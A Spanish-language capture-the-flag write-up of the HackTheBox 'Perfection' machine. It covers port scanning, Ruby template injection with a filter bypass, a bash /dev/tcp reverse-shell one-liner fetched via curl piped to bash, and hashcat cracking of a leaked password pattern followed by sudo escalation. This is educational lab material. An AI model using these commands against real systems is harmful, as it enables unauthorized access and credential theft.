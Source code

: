 ```yaml
---
title: HTB Perfection Writeup
date: 2024-07-06 08:00:00 -05:00
author: retxus
categories: [HTB, Linux]
tags: [Linux, SSTI, BurpSuite, Cracking]
comments: false
image:
    path: /assets/img/HTB-Perfection/Perfection.png
---
```


Muy buenas con todos, el día de hoy voy a resolver la máquina `Perfection` de HTB, espero que el procedimiento sea de su agrado y fácil de comprender.

## Reconocimiento

Primero vemos si tenemos conexión con la máquina y de paso gracias al `ttl` identificamos ante el tipo de máquina que estamos, en `linux` este suele ser de 64 y en `windows` de 128.

```bash
ping -c 1 10.10.11.25ping -c 1 10.10.11.253
PING 10.10.11.253 (10.10.11.253) 56(84) bytes of data.
64 bytes from 10.10.11.253: icmp_seq=1 ttl=63 time=162 ms

--- 10.10.11.253 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 161.515/161.515/161.515/0.000 ms
```

Vemos que el `ttl` de la máquina es de 63, el cual está próximo a 64 por ende nos encontramos ante una máquina `Linux`.

Ahora vamos a identificar los puertos abiertos dentro de la máquina, los invito a usar el siguiente `script` hecho en `bash`.

```bash
#!/bin/bash

GREEN="\e[32m"
RED="\e[31m"
RESET="\e[0m"

IP="$1"

if [ -z "$IP" ]; then
  echo "Uso: $0 <IP>"
  exit 1
fi

TEMP_FILE=$(mktemp)

echo -e "${GREEN}[+] Escaneando todos los puertos abiertos... ${RESET}"

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn "$IP" -oG "$TEMP_FILE"

# Extraer los puertos abiertos
PORTS=$(grep -oP '\d+/open' "$TEMP_FILE" | awk -F'/' '{print $1}' | tr '\n' ',' | sed 's/,$//'; echo)

rm "$TEMP_FILE"

if [ -z "$PORTS" ]; then
  echo -e "${RED}[-] No se encontraron puertos abiertos.${RESET}"
  exit 1
fi

echo -e "\n${GREEN}[+] Escanenado servicios en los puertos: $PORTS. ${RESET}\n"

nmap -sCV -p"$PORTS" "$IP" -oN target

echo -e "\n${GREEN}[+] Escano completado. Resultados en 'target'.${RESET}\n"
```

De preferencia es mejor usar este `script` como `root`, ya que algunos parámetros de `nmap`, requieren de privilegios elevados. Esto al final nos va a generar un archivo `target` que contiene la información de los puertos abiertos dentro de la máquina.

```bash
sudo ./scan.sh 10.10.11.44
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

El escaneo, no nos otorga mucha información, pero vamos a enumerar la web. Primero vemos qué tecnologías se usan o algún `CMS`.

```bash
whatweb 10.10.11.253

http://10.10.11.253 [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx, WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)], IP[10.10.11.253], PoweredBy[WEBrick], Ruby[3.0.2], Script, Title[Weighted Grade Calculator], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block]
```

Bueno, podemos ver algo llamado `WEBrick` y vemos que se usa `Ruby` y nos dicen su versión. Vamos al navegador a ver qué tenemos. Podemos ver que nos dicen algo de una calculadora de calificaciones. En la parte de arriba, al lado de `about us` si le damos clic, nos lleva a una calculadora. Vamos a ver qué podemos hacer aquí.

![](/assets/img/HTB-Perfection/1_Perfection.png)

Podemos ver que si llenamos los campos en la tabla, estos se muestran en la parte de abajo. En vista de esto, podemos pensar en un ataque del tipo `SSTI`

## SSTI a RCE

Bueno, para continuar con las pruebas hacemos uso de `BurpSuite`, así que interceptamos la petición y la mandamos al `Repeater`.

![](/assets/img/HTB-Perfection/2_Perfection.png)

Probamos a poner comillas y en la respuesta vemos que nos detectan como un input malicioso, si recordamos con el comando `whatweb` nos reportó que el lenguaje de programación es `Ruby`, [aquí](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/#ruby){:target="_blank"}, nos indican como podemos realizar un `SSTI` en ese lenguaje, como nos bloquea las entradas maliciosas, probamos también a poner un espacio en blanco en formato `url_encode` y el payload a inyectar también debe estar en ese mismo formato, para hacer eso en `BurpSuite`, seleccionas lo que queremos en-codear y le damos a `Ctrl+u`.

![](/assets/img/HTB-Perfection/3_Perfection.png)

Como podemos ver, nos devuelve el resultado de la multiplicación, así que asumimos que funciona. En la misma web nos dicen cómo podemos lograr una ejecución de comandos, vamos a intentar leer el `/etc/passwd`.

![](/assets/img/HTB-Perfection/4_Perfection.png)

Vemos que se pudo, así que vamos a intentar ganar acceso.

## Ganando acceso

Hay varias formas de hacerlo, pero en esta ocasión lo hice de la siguiente manera. Primero, hice un archivo con el siguiente contenido.

```bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

Luego me pongo en escucha con `netcat`, levanto un servidor con `python` y en la máquina con curl solicito el archivo pipiándolo con `bash`.

![](/assets/img/HTB-Perfection/5_Perfection.png)

Una vez dentro hacemos el tratamiento de la `tty`.

```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
export TEMR=xterm
```
Y podemos ver la primera `flag`.

## Escalada de privilegios

Vemos que dentro de nuestro directorio personal de usuario, hay una carpeta en donde podemos ver una base de datos. Si revisamos su contenidos vemos una tabla con nombres de usuarios y lo que parece ser su contraseña encriptada.

![](/assets/img/HTB-Perfection/6_Perfection.png)

Tratamos de romper el `hash`, pero no se puede. Vemos que en la ruta `/var/mail` tenemos un correo que parece dirigido a `susan` y nos dicen cuál es el formato que tienen las contraseñas (primer nombre_primer nombre al revés_número aleatorio entre 1 y 1,000,000,000). En vista de que el correo está dirigido a `susan`, tratamos de averiguar su credencial. Podemos hacerlo con `hashcat`.

```bash
hashcat -m 1400 hash -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d


abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```

Vemos que nos da la contraseña, ahora intentamos cambiar a ese usuario. Lo logramos y, si hacemos un, `id` vemos que `susan` está en el grupo `sudo`, así que proporcionando la credencial podemos ejecutar cualquier comando.

![](/assets/img/HTB-Perfection/7_Perfection.png)

Bueno, ahora ya somos root y logramos ver la última `flag`
